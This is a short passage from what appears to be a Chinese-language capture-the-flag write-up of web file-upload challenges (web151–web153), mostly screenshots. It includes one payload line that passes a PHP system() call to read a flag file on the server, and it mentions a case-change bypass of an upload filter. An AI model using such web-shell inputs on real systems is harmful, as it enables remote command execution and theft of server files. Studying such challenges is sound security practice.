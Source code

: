 



payload:

```
1=system('cat /var/www/html/flag.php');
```



#### web152

这道题没有前端检验，但是解法跟web151是一样的

![image-20250126162605410](../assets/image-20250126162605410.png)



#### web153

一开始尝试了大小写绕过

![image-20250126162904156](../assets/image-20250126162904156.png)
